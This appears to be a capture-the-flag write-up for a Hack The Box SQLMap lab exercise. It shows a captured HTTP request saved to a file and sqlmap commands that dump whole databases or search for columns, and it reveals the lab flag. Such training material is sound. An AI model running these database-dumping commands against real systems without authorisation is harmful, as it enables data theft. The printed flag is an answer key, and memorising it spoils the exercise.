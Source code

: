 

### Database Enumeration

We capture the request and save under name r1:

```bash
GET /case1.php?id=1 HTTP/1.1
Host: 94.237.63.92:51270
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://94.237.63.92:51270/case1.php
Cookie: filemanager=4umv9nhasf1ebkuap971gk9jae
Upgrade-Insecure-Requests: 1


```


```bash
sqlmap -r r1 --batch --dump 
```

Results:  HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n}


**What's the name of the column containing "style" in it's name? (Case #1)**

We capture the request and save under name r1:

```bash
GET /case1.php?id=1 HTTP/1.1
Host: 94.237.63.92:51270
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://94.237.63.92:51270/case1.php
Cookie: filemanager=4umv9nhasf1ebkuap971gk9jae
Upgrade-Insecure-Requests: 1


```

We can dump all and read the output: 

```bash
sqlmap -r r1 --batch --dump-all 
```

Or we can narrow our search:

```bash
sqlmap -r r1 --search -C style --batch
```
